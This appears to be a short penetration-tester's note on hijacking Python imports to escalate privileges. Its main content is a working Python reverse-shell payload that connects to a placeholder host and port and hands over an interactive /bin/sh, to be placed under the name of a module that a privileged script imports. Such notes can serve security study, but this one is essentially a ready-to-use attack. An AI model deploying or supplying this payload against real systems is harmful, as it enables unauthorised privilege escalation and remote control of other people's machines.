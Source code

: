 -----------------------------------------------
# Python
Tags:  #General #Coding 
Creation date: 2021-10-05

-----------------------------------------------


## Hijacking imports

If a target has a python file with elevated privs that imports files, we can create a new file (contents below) with the name of the imported file to get a shell as whoever has the privs for the file.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
